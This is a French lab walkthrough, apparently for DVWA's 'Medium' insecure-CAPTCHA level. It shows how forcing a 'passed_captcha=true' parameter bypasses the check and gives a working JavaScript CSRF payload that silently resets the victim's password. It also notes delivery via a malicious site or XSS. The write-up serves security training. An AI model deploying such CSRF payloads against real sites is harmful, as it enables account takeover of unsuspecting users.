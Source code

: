 # Niveau "Medium"

Il faut analyser les modifications apportées à ce niveau "Medium" :

![](../../../../.gitbook/assets/0dd89966d796cc2958648f2b515f78e2.png)

L'étape de confirmation est toujours présente :

![](../../../../.gitbook/assets/a4ea88c03ec789f7e1c3282bd635ddeb.png)

La première requête ne semble pas différente :

![](../../../../.gitbook/assets/5e43f2e2e5a1587b4101ebc1d59a510e.png)

La seconde requête contient un nouveau paramètre nommé `passed_captcha` qui a pour valeur `true` :

![](../../../../.gitbook/assets/8cd98b3ca0d4afe92b6b2a1d70a95cf8.png)

Aucune difficulté pour contourner cette protection, j'adapte sensiblement ma précédente requête **`XHR`** pouvant être utilisée pour une attaque CSRF :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;

xhr.onreadystatechange = function() {
  if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
    console.log(xhr.response);
  }
}

xhr.send("step=2&password_new=hacked&password_conf=hacked&passed_captcha=true&Change=Change");
```

{% hint style="info" %}
Pour l'exploitation de cette vulnérabilité, il suffit de reprendre le même principe que lors d'une attaque CSRF classique (faire visiter un site malicieux à la victime, s'appuyer sur une faille XSS, etc)
{% endhint %}
